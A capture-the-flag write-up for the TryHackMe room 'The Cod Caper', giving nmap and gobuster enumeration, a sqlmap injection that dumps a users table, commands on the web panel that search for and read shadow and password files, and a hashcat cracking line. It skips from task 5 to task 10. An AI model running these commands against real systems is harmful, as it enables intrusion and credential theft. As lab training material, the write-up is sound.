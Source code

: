 # The Cod Caper
> 4lch3my | June 27, 2023
-------------------
#### A guided room taking you through infiltrating and exploiting a Linux system.
#### [Room Link](https://tryhackme.com/room/thecodcaper)

## Tasks 
##### 1. Intro
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>


##### 2. Host Enumeration
To start, I will use [nmap] which is default option on the personal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP`
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A uses agressive mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-05-15 23:25 BST
Nmap scan report for ip-10-10-2-173.eu-west-1.compute.internal (10.10.2.173)
Host is up (0.00062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:B2:1D:FE:B3:AD (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.13
OS details: Linux 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 12.24 seconds
```

##### 3. Web Enumeration
Time to run gobuster to see what directorys we have on `port 80`. To do this we can run the command:`gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/big.txt -x php,html,txt` what will look for common files with the extensions: `php,html,txt`

```
===============================================================
Gobuster v3.0.1
===============================================================
[+] Url:            http://10.10.2.173/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2023/05/15 23:35:06 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/administrator.php (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2023/05/15 23:35:13 Finished
===============================================================
```

##### 4. Web Exploitation

Now, we can use `SQLmap` to locate any SQL files/folders on this machine. To do this, we can run the follwing command: `sqlmap -u http://MACHINE_IP/administrator.php --forms --dump`. The `-u http://MACHINE_IP/administrator.php` option specifies the target URL of the web application. Replace `MACHINE_IP` with the actual IP address or hostname of the machine hosting the web application. The `/administrator.php` represents the specific page or endpoint being targeted for the SQL injection attack. The `--forms` option instructs sqlmap to identify and analyze HTML forms on the target page. And the `--dump` option tells sqlmap to retrieve and dump the data from the database tables that are vulnerable to the SQL injection attack. The tool will attempt to extract sensitive information such as usernames, passwords, and other data stored in the vulnerable database.

```
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[*] starting at 23:39:14
[#1] form:
POST http://MACHINE_IP:80/administrator.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> yes
Edit POST data [default: username=&password=] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] Y
...
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
...
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
...
do you want to exploit this SQL injection? [Y/n] Y
[23:40:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[23:40:08] [INFO] fetching current database
[23:40:08] [INFO] retrieved: users
[23:40:08] [INFO] used SQL query returns 2 entries
[23:40:09] [INFO] fetching entries for table 'users' in database 'users'
[23:40:09] [INFO] retrieved: p******d
[23:40:09] [INFO] retrieved: s********s
Database: users
Table: users
[2 entries]
+------------+------------+
| username   | password   |
+------------+------------+
| s********s | s********s |
| p******d   | p******d   |
+------------+------------+
[*] shutting down at 23:40:09
```

And there we go. We have a found suspected admin username/password pair.

##### 5. Command Execution

Log in with credentials above to /administrator.php
Run: ls
run: find / 2>>/dev/null | grep -i shadow
run: find / 2>>/dev/null | grep -i pass
run: cat /var/hidden/pass

##### 10. Finishing the job

hashcat -m 1800 -a 0 password_hash1 /usr/share/wordlists/rockyou.txt
